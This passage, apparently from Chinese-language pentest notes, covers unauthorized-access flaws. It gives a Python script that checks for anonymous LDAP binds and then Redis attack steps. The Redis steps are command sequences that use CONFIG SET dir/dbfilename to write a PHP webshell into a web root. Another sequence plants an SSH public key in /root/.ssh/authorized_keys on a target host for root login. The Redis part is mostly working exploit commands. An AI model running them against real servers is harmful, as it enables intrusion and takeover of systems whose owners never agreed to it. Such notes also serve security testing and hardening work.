 修复建议：设置强口令密码

#### ldap未授权访问

漏洞原因：没有对Ldap进行密码验证，导致未授权访问

检测脚本：

```python
#! /usr/bin/env python
# _*_  coding:utf-8 _*_

from ldap3 import Connection,Server,ALL
def ldap_anonymous(ip):
    try:
        server = Server(ip,get_info=ALL,connect_timeout=1)
        conn = Connection(server, auto_bind=True)
        print "[+] ldap login for anonymous"
        conn.closed
    except:
        #pass
        print '[-] checking for ldap anonymous fail'
```

利用工具：使用LdapBrowser直接连入，获取敏感信息。

修复建议：增加强密码验证

##### Redis未授权访问

##### 姿势一：绝对路径写webshell（权限低）

我们可以将dir设置为一个目录a，而dbfilename为文件名b，再执行save或bgsave，则我们就可以写入一个路径为a/b的任意文件：

```
config set dir /home/wwwroot/default/
config set dbfilename redis.php
set webshell "<?php phpinfo(); ?>"
save

```

##### 姿势二：写入ssh-key公钥获取root权限（权限高）

1、ssh免密码配置

```
ssh-keygen -t rsa -P ''     #生成公钥/私钥对                           
cd /root/.ssh/
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt  #将公钥写入 foo.txt 文件
连接 Redis 写入文件

```

2、连接Redis写入文件

```
cat foo.txt | ./redis-cli -h 192.168.125.140  -x set crackit
./redis-cli -h 192.168.125.140
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
save

```
